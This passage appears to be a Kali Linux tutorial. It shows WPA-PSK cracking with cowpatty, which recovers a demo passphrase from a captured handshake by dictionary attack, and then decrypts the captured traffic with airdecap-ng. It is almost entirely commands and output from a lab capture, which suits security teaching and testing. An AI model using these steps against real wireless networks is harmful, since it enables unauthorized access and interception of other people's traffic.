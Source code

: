 ```sh

      EAPOL HMAC     : 05 31 A0 B4 79 5C 4B 51 13 CC 54 B8 0A 9A 64 89
root@kali:~#
```

Cracking ```WPA-PSK``` using ```cowpatty```

```sh
root@kali:~# cowpatty -f dictionary.txt -r wpa_psk_demo-01.cap -s dlink
cowpatty 4.6 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA/PSK passphrase.
Starting dictionary attack.  Please be patient.

The PSK is "samplepsk123".

1 passphrases tested in 0.00 seconds:  268.74 passphrases/second
root@kali:~#
```

Decrypting packets using ```airdecap-ng```

```sh
root@kali:~# airdecap-ng -e dlink -p samplepsk123 wpa_psk_demo-01.cap
Total number of packets read          7658
Total number of WEP data packets         0
Total number of WPA data packets      2845
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets       185
root@kali:~# ls -la wpa_psk_demo-01*
-rw-r--r-- 1 root root 681601 Jun  7 14:00 wpa_psk_demo-01.cap
-rw-r--r-- 1 root root   7682 Jun  7 14:00 wpa_psk_demo-01.csv
-rw-r--r-- 1 root root  28719 Jun  7 13:59 wpa_psk_demo-01-dec.cap
-rw-r--r-- 1 root root    586 Jun  7 14:00 wpa_psk_demo-01.kismet.csv
-rw-r--r-- 1 root root  85821 Jun  7 14:00 wpa_psk_demo-01.kismet.netxml
root@kali:~#
```
